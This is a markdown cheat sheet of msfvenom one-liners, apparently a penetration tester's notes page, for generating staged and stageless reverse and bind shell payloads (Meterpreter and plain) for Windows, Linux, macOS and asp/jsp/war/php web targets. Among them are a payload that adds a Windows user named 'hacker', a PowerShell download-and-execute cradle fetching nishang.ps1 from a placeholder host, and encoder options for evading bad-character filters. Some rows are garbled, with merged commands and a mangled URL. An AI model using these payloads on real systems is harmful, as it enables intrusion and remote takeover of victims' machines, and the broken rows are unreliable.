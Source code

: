 ```yaml
---
title: Msfvenom 🕸️
---
```

- *Credits to: [infinitelogins](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)*
## Non-Meterpreter Binaries

### Staged Payloads for Windows

|     |                                                                                            |
| --- | ------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

### Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

### Staged Payloads for Linux

|     |                                                                                          |
| --- | ---------------------------------------------------------------------------------------- |
| x86 | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |
|     |                                                                                          |

### Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

## Non-Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`|
|php|`msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

## Meterpreter Binaries

### Staged Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

### Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

### Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

### Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

## Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war`|
|php|`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

## Most Common One-Liners

- Credits to [frizb](https://github.com/frizb/MSF-Venom-Cheatsheet)

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| `msfvenom -l payloads`                                                                                                                                                                                                    | List available payloads                         |
| `msfvenom -p PAYLOAD --list-options`                                                                                                                                                                                      | List payload options                            |
| `msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP`                                                                                                                                                       | Payload Encoding                                |
| `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                    | Linux Meterpreter reverse shell x86 multi stage |
| `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                       | Linux Meterpreter bind shell x86 multi stage    |
| `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                             | Linux bind shell x64 single stage               |
| `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                          | Linux reverse shell x64 single stage            |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                      | Windows Meterpreter reverse shell               |
| `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe` | Windows Meterpreter http reverse shell          |
| `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`                                                                                                                                        | Windows Meterpreter bind shell                  |
| `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Multi Stage                         |
| `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Single Stage                        |
| `msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`                                                                                                                                              | Windows add user                                |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                        | Mac Reverse Shell                               |
| `msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                           | Mac Bind shell                                  |
| `msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py`                                                                                                                                               | Python Shell                                    |
| `msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh`                                                                                                                                                 | BASH Shell                                      |
| `msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl`                                                                                                                                                 | PERL Shell                                      |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp`                                                                                                                                      | ASP Meterpreter shell                           |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp`                                                                                                                                           | JSP Shell                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war`                                                                                                                                           | WAR Shell                                       |
| `msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php`                                                                                                                            | pbcopy && echo '?php '                          |
| `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php`                                                                                                                                            | Php Reverse Shell                               |
| `msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('[http://IP/nishang.ps1')\](http://ip/nishang.ps1')%5C)"" -f python`                                   | Windows Exec Nishang Powershell in python       |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"`                                                                                                     | Bad characters shikata_ga_nai                   |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"`1                                                                                                       | Bad characters fnstenv_mov                      |
